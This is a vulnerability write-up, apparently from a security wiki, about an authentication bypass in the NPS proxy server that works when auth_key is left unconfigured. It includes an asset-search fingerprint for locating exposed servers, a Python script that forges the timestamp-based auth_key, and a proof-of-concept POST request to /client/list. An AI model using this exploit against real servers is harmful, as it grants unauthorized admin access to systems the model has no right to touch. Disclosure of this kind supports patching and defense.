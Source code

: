# NPS auth_key Unauthorized Access Vulnerability

## Vulnerability Description

NPS auth_key has an unauthorized access vulnerability. When auth_key in nps.conf is not configured, an attacker can obtain server background permissions by generating a specific request package.

## Vulnerability Impact

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">NPS</span>

## Network surveying and mapping

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">body="serializeArray()" && body="/login/verify"</span>

## Vulnerability reappears

Login page

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1659837763038-87e809fa-89b7-43e1-a37f-29d06fbcc4c1.png)

In the web/controllers/base.go file

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1659837874036-755e631e-af75-461b-9279-153c730f4a61.png)

```php
md5Key := s.getEscapeString("auth_key")
timestamp := s.GetIntNoErr("timestamp")
configKey := beego.AppConfig.String("auth_key")
timeNowUnix := time.Now().Unix()
if !(md5Key != "" && (math.Abs(float64(timeNowUnix-int64(timestamp))) <= 20) && (crypt.Md5(configKey+strconv.Itoa(timestamp)) == md5Key)) {
	if s.GetSession("auth") != true {
		s.Redirect(beego.AppConfig.String("web_base_url")+"/login/index", 302)
	}
} else {
	s.SetSession("isAdmin", true)
	s.Data["isAdmin"] = true
}
```

The parameters required here are the auth_key in the configuration file nps.conf and the md5 form of timestamp, but in the default configuration file, auth_key is commented by default, so you only need the parameters that can be obtained to log in to the target.

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1659838387320-fecc77bf-a16d-4843-a29c-b0a1fa275349.png)

```php
import time
import hashlib
now = time.time()
m = hashlib.md5()
m.update(str(int(now)).encode("utf8"))
auth_key = m.hexdigest()

print("auth_key=%s&timestamp=%s" % (auth_key,int(now)))
```

Verify POC

```php
POST /client/list
  
search=&order=asc&offset=0&limit=10&auth_key=8c98b1bdedbc569c4e61eeaeb11ce772&timestamp=1659838908
```

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1659838957498-cc20a0c6-5c59-41a3-88dc-6d769a9bb8e4.png)
